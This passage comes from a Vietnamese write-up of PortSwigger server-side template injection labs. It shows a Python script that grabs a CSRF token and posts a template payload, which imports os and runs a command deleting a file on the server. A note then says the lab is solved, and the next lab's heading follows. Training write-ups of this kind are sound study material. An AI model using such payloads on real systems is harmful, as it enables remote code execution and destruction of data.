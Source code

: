 ```python
    verify=False,
    allow_redirects=False,
)

response = session.get(
    url + '/post?postId=5',
    verify=False,
    allow_redirects=False,
)

response = session.get(
    url + '/my-account?id=wiener',
    verify=False,
    allow_redirects=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf' : csrf,
    'blog-post-author-display' : "user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')"
}

response = requests.post(
    url + '/my-account/change-blog-post-author-display',
    # cookies=cookies,
    data= data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/rkCXVD79a.png)

## 3. Lab: Server-side template injection using documentation

link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation

### Đề bài

![image](https://hackmd.io/_uploads/ByDOL5XqT.png)

### Phân tích
